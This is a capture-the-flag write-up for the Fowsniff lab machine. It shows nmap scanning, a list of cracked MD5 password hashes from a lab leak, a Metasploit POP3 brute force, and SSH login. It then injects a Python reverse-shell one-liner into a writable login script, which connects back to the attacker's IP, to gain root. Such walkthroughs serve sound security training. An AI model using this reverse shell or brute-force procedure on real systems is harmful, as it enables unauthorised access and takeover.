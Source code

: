 ```yaml
---
title: "FOWSNIFF CTF CHALLENGE"
date: 2025-09-14 01:09:33 +0300
description: FowSniff CTF Challenge
image: /assets/images/cover.webp
categories: [WEB, Cryptography, Easy]
tags: [WEB, Cryptography, Easy, KenyaCyberlympics]
---
```


# Fowsniff CTF

**Task 1: Deploy the machine**

The first step was to deploy the machine and connect to their network using OpenVPN because I used VPN. You can choose to use the Attack box as well; it's easier if you find it hard to connect to VPN.

![image.png](/assets/images/image.png)

The next thing was to ping the machine’s IP address ‘10.10.213.180’. The IP addresses will vary depending on the machine deployed. I did not get any results, probably because the system and its firewall were blocking ICMP packets, or the machine was not up yet.

**Task 2: Using Nmap scan the machine. What ports are open?**

So I used Nmap to scan for open ports. The command used is: 

```bash
nmap -A -sV <IP Address>
```

The open ports found were: 22/tcp, 80/tcp, 110/tcp and 143/tcp for SSH, HTTP, POP3, and IMAP respectively.

![image.png](/assets/images/nmap-scan.png)

**Task 3: Using Google to find publicly available information about the IP address**

Using Google, I searched the IP address and found the website related to the IP address called *Fowsniff Corp.*

![image.png](/assets/images/fowsniff-website.png)

There is also a GitHub account called [https://github.com/berzerk0/Fowsniff](https://github.com/berzerk0/Fowsniff). This account has a file called `fowsniff.txt` which contains Fowsniff Corp password leaks.

[https://github.com/berzerk0/Fowsniff](https://github.com/berzerk0/Fowsniff)

![image.png](/assets/images/password-leak.png)

I decoded the passwords using password cracker tools called Hashkiller and CrackStation. Feel free to use any password cracker of your choice. Here are the results:

1. `mauer@fowsniff`: 8a28a94a588a95b80163709ab4313aa4 - mailcall
2. `mustikka@fowsniff`: ae1644dac5b77c0cf51e0d26ad6d7e56 - bilbo101
3. `tegel@fowsniff`: 1dc352435fecca338acfd4be10984009 - apple01
4. `baksteen@fowsniff`: 19f5af754c31f1e2651edde9250d69bb - skyler22
5. `seina@fowsniff`: 90dc16d47114aa13671c697fd506cf26 - scoobydoo2
6. `stone@fowsniff`: a92b8a29ef1183192e3d35187e0cfabd - 
7. `mursten@fowsniff`: 0e9588cb62f4b6f27e33d449e2ba0b3b - carp4ever
8. `parede@fowsniff`: 4d6e42f56e127803285a0a7649b5ab11 - orlando12
9. `sciana@fowsniff`: f7fd98d380735e859f8b2ffbbede5a7e - 07011972

**Task 4: Brute force POP3 login using Metasploit**

I first created two files named `users.txt` and `password.txt` using the nano text editor.

![image.png](/assets/images/users.txt.png)

![image.png](/assets/images/password.txt.png)

Since the instructions are to brute force POP3 login, I searched for a POP3 login utility and here we are going to use the 3rd option: `auxiliary/scanner/pop3/pop3_login`.

![image.png](/assets/images/pop3-search.png)

The next command should be `use 3`.

![image.png](/assets/images/use3-command.png)

Now, set our target machine as the remote host, `password.txt` as the PASS_FILE and `users.txt` as the USER_FILE. The commands are as follows:

1. `set rhosts <IP Address>`
2. `set USER_FILE users.txt`
3. `set PASS_FILE password.txt`

After setting these files, execute the `run` command.

![image.png](/assets/images/settings.png)

**Task 5: What is Seina’s password to the email server?** 

![image.png](/assets/images/run-command.png)

Seina’s password is `scoobydoo2`.

**Task 6: Login to POP3 mail server using Seina’s username and password and read the emails**

![image.png](/assets/images/nc-result.png)

Using `nc` and the host address and POP3 port 110, I logged in using the username `seina` and password `scoobydoo2`. We can see there are two messages: 1622 and 1280.

We can use the command `RETR <message>` to read the contents of the emails.

1. The first message:

    ![image.png](/assets/images/first-email.png)

2. The second message doesn't seem to have a lot of insight, but we see that some people might not have changed their email passwords as advised. 

    ![image.png](/assets/images/sec-email.png)

**Task 7: The temporary email password Seina was given**

SSH password: `S1ck3nBluff+secureshell`

**Task 8:  Who sent the email? Using the password from the previous task and the username, connect to the machine using SSH**

![image.png](/assets/images/ssh-login.png)

Using the email sender: `baksteen` and the password: `S1ck3nBluff+secureshell`, I logged into the machine.

**Task 9: What group does the user belong to? Are there files that can be run by that group?**

![image.png](/assets/images/user-id.png)

Using the command `id`, we get to know the user id and the group that the current user belongs to. `baksteen` belongs to the `users` group, and therefore doesn't have root privileges.

Using the command: 

```bash
find / -group users -type f 2>/dev/null
```

we search the whole system for file types only that belong to the group `users` and redirect any error messages to `/dev/null` so that they don't clutter the output.

![image.png](/assets/images/cube.sh-file.png)

We find an interesting file named `cube.sh` that can be edited by the group members in the `users` group. 

**Task 10: Include a reverse shell script in the file** 

The file in question is called `cube.sh`.

![image.png](/assets/images/script.png)

After adding the script:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
We save the file using CTRL + O, then click ENTER and exit the text editor using CTRL + X. When someone logs in the machine via SSH the cube.sh is executed automatically, creating a reverse shell and enabling us to access the machine remotely.

Make sure to replace the <IP> with your IP address which you can be found by: ```bash ifconfig ``` 

To create a reverse shell, we use the command below to listen to port 1234. You are free to chose a port of your choice 
```bash
nc -lvnp <port>.
```
nc- Netcat
l- Listen mode
v- Verbose output
n- No host resolution
p- Listening port
Below, I chose the port 1234. 

We have to go ahead an relogin to the machine in order to trigger the reverse shell
we get a prompt meaning we successfully established a reverse shell
![image.png](/assets/images/nc-connect-as-root.png)

I used the command ```bash whoami``` to confirm that we are logged as root
![image.png](/assets/images/nc-reverse-shell.png)

To find the flag, I used the command 
```bash
find / -name "flag.txt" 2>/dev/null
```

![image.png](/assets/images/flag.txt.fowsnif.png)

